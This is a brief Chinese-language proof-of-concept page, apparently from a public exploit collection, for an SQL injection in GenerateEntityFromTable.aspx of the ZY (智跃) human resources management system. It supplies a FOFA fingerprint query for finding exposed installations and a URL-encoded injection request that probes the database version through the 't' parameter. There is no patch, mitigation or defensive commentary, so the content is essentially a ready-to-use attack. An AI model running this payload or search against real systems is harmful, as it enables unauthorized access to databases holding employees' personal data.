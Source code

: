 # 智跃人力资源管理系统GenerateEntityFromTable.aspx SQL漏洞

## 智跃人力资源管理系统GenerateEntityFromTable.aspx SQL漏洞

## fofa
```
app="ZY-人力资源管理系统"
```

## poc
```
http://127.0.0.1:8085/resource/utils/GenerateEntityFromTable.aspx?t=1%27%2B(SELECT%20CHAR(103)%2BCHAR(87)%2BCHAR(114)%2BCHAR(112)%20WHERE%201669%3D1669%20AND%206492%20IN%20(select+@@version))%2B%27
```


